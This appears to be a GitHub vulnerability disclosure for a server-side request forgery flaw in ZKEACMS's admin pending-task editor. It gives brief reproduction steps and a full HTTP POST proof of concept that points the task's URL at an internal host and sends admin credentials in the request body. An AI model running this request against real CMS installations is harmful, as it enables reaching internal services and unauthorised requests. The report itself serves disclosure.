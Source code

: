 
Vulnerability Verification:

When there is no pending event, we need to manually trigger：

<img width="1653" height="875" alt="image" src="https://github.com/user-attachments/assets/05d87770-2448-4aff-84b5-1d518f8bb973" />

Then we can modify the target address:
<img width="1618" height="820" alt="image" src="https://github.com/user-attachments/assets/d64a63ca-87f2-44f3-bf35-918224512261" />

After that, all SSRF requests only need to modify the content in the packet or modify the pending events:
<img width="1374" height="727" alt="image" src="https://github.com/user-attachments/assets/278abcb2-c32c-46fd-b85f-c0cc3988c1f2" />



# POC
```
POST /admin/pendingtask/edit/2 HTTP/1.1
Host: 192.168.43.165:5000
Cookie: XXX
Content-Type: application/x-www-form-urlencoded
Content-Length: 2748

Identifier=ssrc&HandlerName=HttpRequesetTaskHandler&Data=%7B%22Url%22%3A%22http%3A%2F%2F192.168.43.165%3A9985%2F111.txt%22%2C%22Method%22%3A%22POST%22%2C%22HttpVersion%22%3A%22HTTP%2F1.1%22%2C%22Headers%22%3A%7B%22Content-Type%22%3A%22application%2Fjson%22%7D%2C%22Cookies%22%3A%7B%7D%2C%22RequestBody%22%3A%22%7B%5Cn++%5C%22userID%5C%22%3A+%5C%22admin%5C%22%2C%5Cn++%5C%22passWord%5C%22%5C%22%3A+%5C%22admin%5C%22%5Cn%7D%22%7D&LogMessage=System.Net.Http.HttpRequestException%3A+Received+an+invalid+status+line%3A+%27%27.%0D%0A+++at+System.Net.Http.HttpConnection.ParseStatusLineCore%28Span%601+line%2C+HttpResponseMessage+response%29%0D%0A+++at+System.Net.Http.HttpConnection.ParseStatusLine%28HttpResponseMessage+response%29%0D%0A+++at+System.Net.Http.HttpConnection.SendAsync%28HttpRequestMessage+request%2C+Boolean+async%2C+CancellationToken+cancellationToken%29%0D%0A+++at+System.Net.Http.HttpConnection.SendAsync%28HttpRequestMessage+request%2C+Boolean+async%2C+CancellationToken+cancellationToken%29%0D%0A+++at+System.Net.Http.HttpConnectionPool.SendWithVersionDetectionAndRetryAsync%28HttpRequestMessage+request%2C+Boolean+async%2C+Boolean+doRequestAuth%2C+CancellationToken+cancellationToken%29%0D%0A+++at+System.Net.Http.RedirectHandler.SendAsync%28HttpRequestMessage+request%2C+Boolean+async%2C+CancellationToken+cancellationToken%29%0D%0A+++at+Microsoft.Extensions.Http.Logging.LoggingHttpMessageHandler.%3CSendCoreAsync%3Eg__Core%7C4_0%28HttpRequestMessage+request%2C+Boolean+useAsync%2C+CancellationToken+cancellationToken%29%0D%0A+++at+Microsoft.Extensions.Http.Logging.LoggingScopeHttpMessageHandler.%3CSendCoreAsync%3Eg__Core%7C4_0%28HttpRequestMessage+request%2C+Boolean+useAsync%2C+CancellationToken+cancellationToken%29%0D%0A+++at+System.Net.Http.HttpClient.%3CSendAsync%3Eg__Core%7C83_0%28HttpRequestMessage+request%2C+HttpCompletionOption+completionOption%2C+CancellationTokenSource+cts%2C+Boolean+disposeCts%2C+CancellationTokenSource+pendingRequestsCts%2C+CancellationToken+originalCancellationToken%29%0D%0A+++at+ZKEACMS.EventAction.HttpParser.HttpRequesetTaskHandler.SendAsync%28HttpRequestContent+httpRequest%29%0D%0A+++at+ZKEACMS.PendingTask.PendingTaskExecutor.ProcessAllPendingTaskAsync%28%29+in+%2Fbuild%2Fsrc%2FZKEACMS%2FPendingTask%2FPendingTaskExecutor.cs%3Aline+48&RetryCount=3&Status=1&ID=2&Title=&Description=&CreateBy=&CreatebyName=&CreateDate=09%2F04%2F2025+08%3A44%3A33&LastUpdateBy=admin&LastUpdateByName=ZKEASOFT&LastUpdateDate=09%2F04%2F2025+09%3A39%3A15&ActionType=UpdateAndExit&__RequestVerificationToken=xxx

```





